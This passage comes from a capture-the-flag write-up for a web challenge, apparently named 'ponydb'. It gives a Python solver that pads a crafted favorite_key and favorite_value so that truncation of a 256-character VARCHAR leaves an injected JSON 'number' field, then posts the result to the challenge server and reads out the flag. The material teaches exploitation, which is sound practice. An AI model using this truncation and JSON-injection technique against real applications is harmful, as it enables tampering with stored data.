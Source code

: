 Then, we can calculate the number of remaining characters needed to complete the 256-character VARCHAR. This number of characters will be appended to the beginning of `favorite_value`.

```python
import json
import requests
import re

name = 'test'
bio = 'test'
image = 'test'
favorite_key = 'number":1337,"color'
favorite_value = 'A"}'
word = 'test'
number = '1'
session = {'id': 5}

favorites = f"{{\"{favorite_key.lower()}\":\"{favorite_value}"

length = len(favorites)
print("Current length:", length, '\n')

remaining = 256 - length
favorite_value = 'A' * remaining + favorite_value

print("favorite_value:", favorite_value, '\n')

favorites = f"{{\"{favorite_key.lower()}\":\"{favorite_value}\"," + \
		            f"\"word\":\"{word.lower()}\",\"number\":{number}}}"

print("Length before truncation:", len(favorites), '\n')

sql = f"INSERT INTO `ponies` VALUES ('{name}', '{bio}', '{image}', " + \
		            f"'{{\"{favorite_key.lower()}\":\"{favorite_value}\"," + \
		            f"\"word\":\"{word.lower()}\",\"number\":{number}}}', " + \
		            f"'{session['id']}')"

print("SQL statement:", sql, '\n')

data = f"{{\"{favorite_key.lower()}\":\"{favorite_value}\"," + \
		            f"\"word\":\"{word.lower()}\",\"number\":{number}}}"

data = json.loads(data[:256])
print("Parsed JSON:", data, '\n')

s = requests.session()
s.get("http://ponydb.chal.uiuc.tf")

payload = {
	"name": name,
	"bio": bio,
	"image": image,
	"favorite_key": favorite_key,
	"favorite_value": favorite_value,
	"word": word,
	"number": number
}

r = s.post("http://ponydb.chal.uiuc.tf/pony", data=payload)
match = re.search(r"<p>Favorite flag: (.+)</p>", r.text)
print(match[1])
```
